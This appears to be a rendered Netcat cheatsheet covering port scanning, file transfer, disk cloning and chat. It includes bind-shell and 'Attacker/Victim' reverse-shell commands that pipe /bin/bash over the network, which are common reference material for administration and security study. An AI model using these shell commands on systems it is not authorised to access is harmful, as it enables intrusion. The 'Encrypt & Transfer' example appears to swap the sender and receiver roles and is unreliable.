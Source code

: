 ```
      ___           ___           ___           ___           ___           ___     
     /\__\         /\  \         /\  \         /\  \         /\  \         /\  \    
    /::|  |       /::\  \        \:\  \       /::\  \       /::\  \        \:\  \   
   /:|:|  |      /:/\:\  \        \:\  \     /:/\:\  \     /:/\:\  \        \:\  \  
  /:/|:|  |__   /::\~\:\  \       /::\  \   /:/  \:\  \   /::\~\:\  \       /::\  \ 
 /:/ |:| /\__\ /:/\:\ \:\__\     /:/\:\__\ /:/__/ \:\__\ /:/\:\ \:\__\     /:/\:\__\
 \/__|:|/:/  / \:\~\:\ \/__/    /:/  \/__/ \:\  \  \/__/ \/__\:\/:/  /    /:/  \/__/
     |:/:/  /   \:\ \:\__\     /:/  /       \:\  \            \::/  /    /:/  /     
     |::/  /     \:\ \/__/     \/__/         \:\  \           /:/  /     \/__/      
     /:/  /       \:\__\                      \:\__\         /:/  /                 
     \/__/         \/__/                       \/__/         \/__/                  
```

# Netcat (nc) Cheatsheet

Netcat (`nc`) is a versatile tool for TCP, UDP, and UNIX sockets. It can:
- Establish TCP connections
- Send/receive UDP packets
- Listen on arbitrary TCP/UDP ports
- Perform port scanning
- Handle IPv4 and IPv6

---

## Basic Syntax
```bash
nc [options] [host] [port]
```

---

## Port Scanning & Banner Grabbing
```bash
# Scan ports between 1 and 100
nc -zvn 192.168.59.1 1-100

# Scan ports 80, 22, and 443
nc -zvn 192.168.59.1 80 22 443

# Scan only port 80
nc -zvn 192.168.59.1 80

# Grab banner
nc sysxplore.com 80
```

---

## Downloading Files
```bash
# Sending side
nc -lvp 8888 < data.txt

# Receiving side
nc 192.168.59.3 8888 > data.txt
```

---

## Uploading Files
```bash
# Receiving side
nc -lvp 8888 > data.txt

# Sending side
nc 192.168.59.3 8888 < data.txt
```

---

## Compress & Transfer Directories
```bash
# Sender
tar cf - /backups | compress -c | nc 192.168.59.54 8888

# Receiver
nc -l -p 8888 | uncompress -c | tar xvf -
```

---

## Encrypt & Transfer
```bash
# Sender
nc -l -p 8888 | openssl enc -e -des3 -pass pass:password > creds.txt

# Receiver
openssl enc -d -des3 -pass pass:password | nc 192.168.59.3 8888
```
> **Note**: Netcat transfers are not encrypted by default.

---

## Clone Linux Disk Drive
```bash
# Sender
dd if=/dev/sdb | nc -l -p 8888

# Receiver
nc 192.168.59.3 8888 | dd of=/dev/sdb
```

---

## Remote Shell
```bash
# Server
nc -nlvp 8888 -e /bin/bash

# Client
nc -nv 192.168.59.3 8888
```

---

## Reverse Shell
```bash
# Attacker
nc -nlvp 8888

# Victim
nc 192.168.59.3 8888 -e /bin/bash
```

---

## Video Streaming
```bash
# Server
cat video.avi | nc -nlvp 8888

# Client
nc 192.168.59.3 8888 | mplayer -vo x11 -cache 3000 -
```

---

## Chat App
```bash
# Server
nc -lvp 8888

# Client
nc 192.168.59.3 8888
```

---

## Useful Options
| Option | Description |
|--------|-------------|
| `-4`   | Forces IPv4 addresses only |
| `-6`   | Forces IPv6 addresses only |
| `-l`   | Listen for incoming connections |
| `-v`   | Verbose output |
| `-n`   | Disable DNS resolution |
| `-p`   | Specify source port |
| `-w`   | Set timeout |
| `-u`   | Use UDP instead of TCP |
| `-k`   | Keep listening after disconnect |
| `-z`   | Port scan mode |
| `-h`   | Show help |
| `-x`   | Use proxy |

---
